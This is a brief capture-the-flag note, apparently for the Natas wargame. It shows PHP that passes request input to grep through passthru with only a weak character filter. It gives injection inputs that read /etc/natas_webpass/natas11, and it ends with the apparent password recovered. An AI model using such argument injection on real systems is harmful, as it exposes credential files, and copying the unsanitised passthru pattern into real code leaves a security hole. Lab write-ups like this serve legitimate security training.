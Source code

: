 now they filter special characters

<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>

testicle dictionary.txt > /dev/stdout #

a /etc/natas_webpass/natas11 #

UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
